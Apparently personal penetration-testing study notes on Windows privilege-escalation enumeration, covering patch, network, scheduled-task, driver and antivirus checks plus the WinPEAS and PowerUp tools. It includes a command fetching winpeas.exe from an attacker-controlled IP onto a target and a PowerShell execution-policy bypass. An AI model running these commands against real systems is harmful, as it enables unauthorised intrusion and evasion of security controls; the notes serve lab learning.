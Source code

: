 `*.txt`: The search will cover files that have a .txt extension
Extensions to check include txt, xml, ini, config and xls

### Patch level
A missing critical patch can lead to priv esc.
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

WMIC is a CLI interface to Windows Management Instrumentation (WMI). WMIC is deprecated, user WMI PowerShell cmdlet.

### Network connections
```powershell
netstat -ano
```
Breakdown:
-   `-a`: Displays all active connections and listening ports on the target system.
-   `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-   `-o`: Displays the process ID using each listed connection.

Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential **local** service.

If you discover such a service you can try port forwarding to connect and exploit.

### Scheduled tasks
`schtasks /query /fo LIST /v`

### Drivers
`driverquery`
Online research to see if discovered drivers present priv esc vuln.

### Antivirus
Query for Windows Defender:
`sc query windefend`

Overwhelming output, but if you do not know the service name of the antivirus:
`sc queryex type=service`

## Tools
### WinPEAS
Script for enumeration, detected and blocked by Windows Defender. A lot of output so redirect it to a file:
```powershell
winpeas.exe > outputfile.txt
```
Available at: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

From windows shell:
```bash
powershell -c "curl http://10.2.112.113/winpeas.exe -OutFile winpeas.exe"
```
It is not actually curl but an alias for similar hence -OutFile is weird.
### PowerUphttps://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
`Invoke-AllChecks` for all checks
`Get-UnquotedService` e.g of a specific check
Available at: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
**Reminder**: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.
```cmd
powershell.exe -nop -exec bypass
```
